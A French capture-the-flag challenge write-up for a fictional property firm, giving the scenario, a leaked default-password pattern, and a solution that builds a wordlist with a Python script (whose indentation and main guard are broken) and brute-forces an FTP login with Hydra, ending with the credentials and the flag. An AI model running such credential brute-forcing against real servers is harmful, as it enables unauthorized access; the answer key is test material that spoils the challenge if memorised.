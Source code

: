 Titre : Brut force serveur FTP

Catégorie : Exploit

Equipe : Exploit

Personnes : Brandon C

Description - Enoncé :

Nom de l'entreprise : Immo Net

Date de création : 2003

Siège social : Paris, France

Activité : Gestion immobilière, location, vente

Nombre d'employés : 50

Responsable Administrateur réseau : Jean Dupont

Biographie

Jean Dupont est un administrateur réseau expérimenté avec plus de 10 ans d'expérience dans le domaine. Il est diplômé d'une école d'ingénieur en informatique et a travaillé pour plusieurs entreprises de tailles variées.

Il est responsable de la gestion du réseau informatique d'ImmoNet, qui comprend environ 100 ordinateurs et serveurs. Il est également responsable de la sécurité du réseau et de la mise en œuvre des politiques de sécurité de l'entreprise.

Rôle dans l'entreprise

Jean Dupont est un membre important de l'équipe d'ImmoNet. Il joue un rôle essentiel dans le fonctionnement de l'entreprise en assurant la disponibilité et la sécurité du réseau informatique.

Il est également responsable de la mise en place de nouveaux systèmes et technologies, ce qui contribue à l'innovation et à la compétitivité de l'entreprise.

Informations fictives

Jean Dupont est un passionné de sécurité informatique. Il est membre de plusieurs associations professionnelles de sécurité et participe régulièrement à des conférences et événements sur le sujet.

Il est également un joueur de tennis passionné et il participe à des tournois amateurs locaux.

Informations supplémentaires

Vous pouvez ajouter des informations supplémentaires sur l'entreprise et le responsable Administrateur réseau pour rendre le défi CTF plus difficile. Par exemple, vous pouvez :

Spécifier les systèmes et technologies utilisés par l'entreprise.
Donner des détails sur les politiques de sécurité de l'entreprise.
Mentionner des vulnérabilités connues dans les systèmes et technologies utilisés par l'entreprise.
Avec un peu de créativité, vous pouvez créer un défi CTF amusant et stimulant qui mettra les compétences des participants à l'épreuve.

Charte Informatique – Immo Net

Politique de Gestion des Mots de Passe

Objectif : Assurer la sécurité des informations confidentielles d'Immo Net en mettant en place des pratiques efficaces de gestion des mots de passe.

1. Complexité des Mots de Passe :

Les mots de passe doivent contenir au moins huit caractères.
Ils doivent inclure une combinaison de lettres majuscules, lettres minuscules, chiffres et caractères spéciaux.

1. Confidentialité et Non-Partage :

Les employés ne doivent jamais partager leur mot de passe avec des collègues ou des tiers.
Les mots de passe ne doivent pas être écrits ou stockés de manière non sécurisée.

1. Authentification à Deux Facteurs (2FA) :

L'utilisation de l'authentification à deux facteurs est fortement recommandée pour renforcer la sécurité des comptes.

A votre première connexion votre mot de passe est composé de votre nom - un Caractère Spécial - et un nombre aléatoire entre 1 et 50.
Il est important de vous rendre dans vos paramètres pour le changer après votre première connexion.
Votre nom d'utilisateur est simplement votre nom de famille.

Solution :

Il faut d'abord utiliser un IP Scanner pour trouver l'adresse du serveur FTP.  
Une fois son adresse trouver l'utilisation d'une VM Kali linux est obligatoire.  
Il faudra élaborer un dictionnaire de mot de passe grace aux infos trouver dans l'énoncer.  
A la fin on peux lire que le mot de passe par défaut est composé du nom de famille mais on ne sait pas si c'est avec ou sans majuscule, puis d'un caractère spécial et termine par un nombre entre 1 et 50.  
Pour le nom d'utilisateur on sait que c'est le nom de famille de l'utilisateur mais on ne sait pas si c'est avec ou sans majuscule.  
Pour générer le dictionnaire de mot de passe on peux mettre en place un script python, pour générer la liste avec nos information connu, (voir le script a la tout fin)

Une fois la liste créer on va utiliser l'outil Hydra pour test tous les mot de passe automatiquement (ça serais long de faire a la fin car il y a 3200 possibilité)

Pour faire le test il faudra utiliser la commande suivante : hydra -t 20 -l dupont -P test.txt -vV IPV4 ftp

en gros la commande va test par vague de 20 possibilité les mots de passe a partir de la liste text.txt sur le serveur ayant l'IP "IPV4" en protocol ftp et utilise l'identifiant dupont.

Il va tester tous les mots de passe jusqu'à arrivé au test "Dupont+37" qui va donner une connexion fonctionnel.

Il ne suffit plus que d'utiliser un logiciel comme filezila pour ce connecter au serveur ftp avec les identifiant suivant :

Hote = IPV4  
Nom d'utilisateur = dupont  
Mot de passe = Dupont+37  
Port = 21

Dans le serveur on peu retrouver un fichier cle admin.txt  
avec le flag a l'intérieur

Flag = 38VacfEtRT7aT45yM3

Docker file : NON

Script python

```
Script python

import itertools
import string

def bruteforce_password():
username_prefixes = ["Dupont", "dupont"]
characters = string.ascii_letters + string.digits + string.punctuation

password_list = []

for prefix in username_prefixes:
    for special, number in itertools.product(string.punctuation, map(str, range(1, 51))):
        password_attempt = prefix + special + number
        if 8 <= len(password_attempt) <= 9:
            password_list.append(password_attempt)

return password_list

def write_to_file(passwords, filename="test.txt"):
with open(filename, "w") as file:
for password in passwords:
file.write(password + "\n")

if name == "main":
generated_passwords = bruteforce_password()
write_to_file(generated_passwords)
print(f"Generated {len(generated_passwords)} passwords. Check test.txt.")
```